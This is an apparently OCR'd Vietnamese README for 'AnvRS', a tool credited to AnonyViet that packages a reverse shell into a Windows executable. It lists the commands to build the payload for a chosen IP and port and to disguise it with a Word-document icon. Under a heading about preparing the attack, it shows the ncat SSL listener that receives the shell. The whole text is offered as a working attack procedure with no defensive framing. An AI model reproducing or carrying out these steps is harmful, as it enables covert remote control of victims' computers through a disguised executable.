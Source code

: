 ### Yêu cầu hệ thống
Trước khi sử dụng công cụ AnvRS, bạn cần:
- Python 3.10 trở lên
- Microsoft Visual C++ Build Tools
- Ncat
- PyInstaller phiên bản mới nhất (hiện tại là 5.13.1)

### Cài đặt PyInstaller
1. **Gỡ cài đặt phiên bản cũ (nếu có):**
   ```bash
   python -m pip uninstall pyinstaller
   ```

2. **Tải PyInstaller mới nhất từ GitHub**

3. **Giải nén và cài đặt:**
   ```bash
   cd bootloader
   python ./waf all
   ```

4. **Cài đặt với quyền Admin:**
   ```bash
   python -m pip install .
   ```

### Sử dụng AnvRS

1. **Tạo file AnvRS.py** với mã nguồn từ AnonyViet

2. **Tạo payload cơ bản:**
   ```bash
   python AnvRS.py -i <YourIpAddress> -p <YourPort> -o <YourName>.exe
   ```
   
   **Ví dụ:**
   ```bash
   python AnvRS.py -i 127.0.0.1 -p 6789 -o ReverseShell.exe
   ```

3. **Tạo payload với icon:**
   ```bash
   python AnvRS.py -i 127.0.0.1 -p 6789 --icon <PathToIconFile>.ico -o ReverseShell.exe
   ```
   
   **Ví dụ:**
   ```bash
   python AnvRS.py -i 127.0.0.1 -p 6789 --icon C:\Users\test\Downloads\word.ico -o ReverseShell.exe
   ```

### Chuẩn bị cuộc tấn công
Sử dụng ncat để lắng nghe kết nối:
```bash
ncat --ssl -lnvp <YourPort> -4 <YourIpAddress>
```

**Ví dụ:**
```bash
ncat --ssl -lnvp 6789 -4 127.0.0.1
```
